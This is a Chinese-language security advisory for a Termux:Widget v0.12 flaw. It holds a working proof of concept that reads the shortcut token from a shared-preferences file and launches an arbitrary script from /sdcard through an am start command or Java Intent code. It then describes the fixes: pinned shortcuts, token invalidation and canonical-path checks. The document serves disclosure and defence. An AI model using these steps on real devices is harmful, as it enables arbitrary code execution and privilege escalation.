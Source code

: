 
### 1. POC

1. 安装 [`Termux:Widget` `v0.12`](https://f-droid.org/en/packages/com.termux.widget).

2. 通过 Termux Terminal 创建一个快捷方式: `touch ~/.shortcuts/tasks/test`

3. 通过以下方式获取 Token: 安装并打开 [`TaskerLauncherShortcut`](https://github.com/agnostic-apollo/TaskerLauncherShortcut/releases), 点击 选项 (右上角的三个点按钮)，选择 `Search Shortcuts` -> `Static Shortcut` -> `Termux:Widget` -> 选择任意一个快捷方式， Intent URI 会被复制到剪切板，比如  `com.termux.file:/data/data/com.termux/files/home/.shortcuts/tasks/test#Intent;component=com.termux.widget/.TermuxLaunchShortcutActivity;S.com.termux.shortcut.token=22e30b81-5d67-4ee3-be0e-66169f637025;end`。也可以通过 Termux Terminal 来获取 Token，在至少创建了一个快捷方式后，执行 `cat /data/data/com.termux.widget/shared_prefs/token.xml`。

4. 通过 Termux Terminal 创建漏洞利用脚本: `echo 'whoami; su -c whoami; sleep 5' > /sdcard/exploit.sh`

5. 通过 Termux Terminal 或者 `adb shell` 触发此漏洞: `am start --user 0 -n com.termux.widget/.TermuxLaunchShortcutActivity -d /sdcard/exploit.sh --es com.termux.shortcut.token 22e30b81-5d67-4ee3-be0e-66169f637025`

或者从任何一个应用程序，执行以下 Java 代码：

```java
    Intent intent = new Intent();
    intent.setClassName("com.termux.widget", "com.termux.widget.TermuxLaunchShortcutActivity");
    intent.setData(Uri.parse("/sdcard/exploit.sh"));
    intent.putExtra("com.termux.shortcut.token", "22e30b81-5d67-4ee3-be0e-66169f637025");
    startActivity(intent);
```

Termux 应用程序将会执行使用 `/data/data/com.termux/files/usr/bin/sh` 执行 `/sdcard/exploit.sh` 脚本，`/sdcard` 被挂载为 `noexec` 也没有问题。

### 2. 修复方式

1. 在 Android 版本 `>=8` 时，程序将使用 `ShortcutManager` API 来创建Pinned Shortcut。这是一个创建快捷方式的更好方法，因为启动器无法访问应用程序的快捷方式数据，Android 系统来储存这些数据，启动器应用程序无法获取 Token ，也无法运行任何不是由用户创建的快捷方式脚本。有关快捷方式类型的更多信息，请查看 https://github.com/agnostic-apollo/TaskerLauncherShortcut#shortcut-types。 ([`e94d7777`](https://github.com/termux/termux-widget/commit/e94d7777))

2. 在旧版本上， `Termux:Widget` 创建的快捷方式和 Token 已经失效。如果恶意应用程序已经拥有这种 Token ，也无法再使用。Android `>= 8` 上的用户只能使用更安全的 Pinned Shortcut API 来重新创建这些快捷方式，而不是继续使用不安全的 Static Shortcut API。 ([`32f344ee`](https://github.com/termux/termux-widget/commit/32f344ee))

3. 在执行之前， 程序首先 [寻找并校验](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetProvider.java#L183) `TermuxLaunchShortcutActivity` 接收到的可执行文件参数的规范路径。即使某个程序发送的 Intent 发送了路径，损坏的符号链接，或者其规范路径不在 `~/.shortcuts` 或 `~/.termux` 目录下的快捷方式将 [不会被显示](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetService.java#L30)，并且 [后者会不允许被执行](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetProvider.java#L186) 。([`32f344ee`](https://github.com/termux/termux-widget/commit/32f344ee), [`32f344ee`](https://github.com/termux/termux-widget/commit/13954b8b), [`bcb0ab6c`](https://github.com/termux/termux-widget/commit/bcb0ab6c))

在 Android 版本 `>=8` 上使用 Pinned Shortcut，不允许执行规范路径不在 `~/.shortcuts` 或 `~/.termux` 目录下的文件，可以提供合理的安全性，防止任意代码执行或权限提升。Android 版本 `< 8` 时，仍然要使用 Static Shortcut，这些用户应该关注他们在哪些应用程序中创建了快捷方式，因为这些应用程序能够在允许的目录下执行任何脚本。这些用户通常应该去关注使用了哪些启动器，或者安装在他们的设备上的非启动器的快捷方式应用程序 (例如 [Shortcut Maker](https://play.google.com/store/apps/details?id=rk.android.app.shortcutmaker))，因为这些应用程序可以为其他应用程序执行危险的快捷方式，如果应用程序没有正确保护，可能会产生严重的后果。
